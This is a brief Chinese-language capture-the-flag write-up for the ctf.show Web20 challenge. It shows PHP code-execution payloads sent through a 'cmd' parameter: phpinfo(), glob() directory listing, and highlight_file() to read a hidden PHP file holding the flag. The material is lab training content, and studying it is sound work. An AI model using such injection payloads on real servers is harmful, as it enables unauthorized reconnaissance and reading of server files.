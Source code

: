 ```yaml
---
title: "Web20  @WEB"
date: 2023-07-24
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 查看源代码，根据源码提示判断此题为命令执行

![](/ctf.show/20/1.webp)

1、传入phpinfo参数，没有在info里面发现flag，cmd=phpinfo();

![](/ctf.show/20/2.webp)

2、继续用glob参数遍历目录,cmd=print_r(glob('*'));

![](/ctf.show/20/3.webp)
3、发现php文件，使用hightlight_file()可以使文件内容高亮显示, 常用于读取文件内容

cmd=highlight_file('903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php');

4、找到flag

![](/ctf.show/20/4.webp)